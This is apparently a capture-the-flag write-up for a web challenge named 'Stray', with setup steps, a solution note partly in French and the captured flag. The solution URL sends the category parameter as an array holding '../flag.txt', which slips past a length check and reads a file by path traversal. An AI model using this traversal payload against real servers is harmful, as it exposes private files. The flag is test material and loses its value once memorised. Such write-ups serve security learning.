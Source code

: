 # Stray

Stuck on what to name your stray cat?

## Running

```
docker compose up
```

Then access [http://localhost:3000](http://localhost:3000) in your browser.


## Flag


`https://stray.chall.pwnoh.io/cat?category[]=../flag.txt`

**category.length** sera alors la taille de l'array qui est 1 et vérifie dc bien le check 

```nodejs
f (category.length == 1)
```


```
{"name":"bctf{j4v45cr1p7_15_4_6r347_l4n6u463}"}
```
